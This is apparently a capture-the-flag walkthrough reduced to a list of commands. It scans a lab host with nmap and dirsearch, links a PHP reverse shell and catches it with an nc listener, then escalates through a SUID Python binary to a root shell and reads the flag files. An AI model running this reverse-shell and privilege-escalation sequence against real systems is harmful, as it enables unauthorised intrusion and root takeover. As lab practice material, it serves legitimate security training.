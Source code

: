 nmap -sV -sC -F









sudo dirsearch --full-url -u http://10.10.242.162/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt









https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php









ip a









nc -lvnp 1234









cd var/www/












cat user.txt









python -c 'import pty; pty.spawn("/bin/bash")'









find / -perm -u=s -type f 2>/dev/null









python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

cd root

cat root.txt